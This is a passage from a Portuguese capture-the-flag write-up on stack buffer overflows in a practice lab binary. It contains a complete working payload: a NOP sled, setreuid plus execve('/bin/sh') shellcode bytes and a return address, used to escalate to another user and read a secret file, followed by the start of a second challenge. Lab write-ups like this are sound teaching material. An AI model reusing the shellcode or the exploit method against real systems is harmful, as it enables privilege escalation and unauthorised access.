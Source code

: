 <img width="592" height="67" alt="image" src="https://github.com/user-attachments/assets/e6c34d11-ddf6-4e0d-affe-8ada6963c200" />

O próximo comando é o seguinte: `pwn shellcraft -f d amd64.linux.setreuid 1002`

Com isso, podemos adicioná-lo ao nosso código e procurar o endereço de retorno do nosso código shell no gdb.

O payload que irei usar é o seguinte: `| NOPs 90 | Shellcode 54 | random characters 8 | return address 6|` e depois disso, verificarei o registro para ver onde o código shell começa.

`run $(python -c "print('\x90' * 76 + '\x31\xff\x66\xbf\xea\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05' + '\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05' + 'A' * 22 + 'B' * 6)")

x/100x $rsp-200`

A seguinte imagem mostra onde os NOPs começam, o código shell e endereço de retorno. Além disso, usaremos 0x7fffffffe298 como endereço de retorno. Convertendo para uma strign hexadecimal, temos: '\x98\xe2\xff\xff\xff\x7f'.

<img width="503" height="407" alt="image" src="https://github.com/user-attachments/assets/fca7110d-507d-4166-85f9-e4b45f8c8498" />

Por fim, podemos adicionar isso, sair do gdb e executar o binário com nosso payload: `python -c "print('\x90' * 76 + '\x31\xff\x66\xbf\xea\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05' + '\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05' + 'A' * 22 + '\x98\xe2\xff\xff\xff\x7f')"`.

Depois de acessar o user2, basta ler o arquivo com o comando: `cat secret.txt`.

>`omgyoudidthissocool!!`

## Buffer Overflows

**Objetivo**

* Use o mesmo método que foi usado anteriormente para ler o conteúdo do aquivo secreto.

**Solução**

Podemos usar o mesmo método para resolver esse desafio, porém será necessário modificar um pouco o código shell.

Ao observar o binário, é possível ver que o nosso buffer agora tem 154 bytes de comprimento e é preenchido com a palavra `.doggo`

<img width="843" height="431" alt="image" src="https://github.com/user-attachments/assets/4dd8887d-3893-401a-ae93-31e3c09ed01d" />

Seguindo o mesmo passo de verificar qual o tamanho necessário para o nosso payload usando o gdb temos que:

<img width="913" height="522" alt="image" src="https://github.com/user-attachments/assets/2904eb37-bcae-4f19-a259-cf4bc9c740c5" />

Fazendo esse teste com 168 e 169 bytes, podemos ver que o nosso payload deverá ter 169 bytes dessa vez.

Além disso, adicionaremos um pedaço de código para alterar o nosso id para o id do user3 (usando o mesmo código `id -u user3` para encontrá-lo).
